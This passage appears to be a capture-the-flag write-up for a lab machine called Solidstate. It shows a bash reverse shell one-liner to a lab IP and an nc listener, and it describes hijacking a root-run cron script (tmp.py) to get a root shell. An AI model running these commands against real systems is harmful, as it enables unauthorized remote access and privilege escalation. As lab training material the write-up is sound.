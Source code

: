 ```bash -i >& /dev/tcp/10.10.14.35/8080 0>&1```
The Linux version `4.9.0-3-686-pae` indicates that this is a 32-bit kernel. The "686" refers to the 32-bit architecture, and "PAE" (Physical Address Extension) allows the system to address more than 4 GB of RAM on a 32-bit system. So, this is a 32-bit version of Debian.

So lets use the 32 bit version of pspy

![Image](/assets/img/Solidstate/image_27.png)

![Image](/assets/img/Solidstate/image_28.png)

Ok so this process seems to be running every 3 minutes and we know it's being run with root privs.

Lets check this file out

![Image](/assets/img/Solidstate/image_29.png)

Ok so this was the file responsible for cleaning up tmp every 3 minutes, lets change it so that we get a rev shell instead.

Lets upgrade our shell a bit first

![Image](/assets/img/Solidstate/image_30.png)

Now lets edit the [tmp.py](http://tmp.py) file

and in 3 minutes we should have gotten our shell

![Image](/assets/img/Solidstate/image_33.png)

![Image](/assets/img/Solidstate/image_31.png)

#### Final Privilege Escalation

Now that we have modified `tmp.py` to spawn a reverse shell, we need to ensure that it is executable and waits for the next cron job to trigger it.

#### Reverse Shell Payload

We set up a listener on our attacking machine to catch the reverse shell:

```nc -lvnp 4444```

Next, we need to wait for the cron job to execute the modified `tmp.py`. Once it runs, we should receive a connection from the target machine.

#### Getting Root

After receiving the connection, we will have an elevated shell with root privileges. We can then check for the root flag:

![Image](/assets/img/Solidstate/image_32.png)

Finally, we obtain the root flag


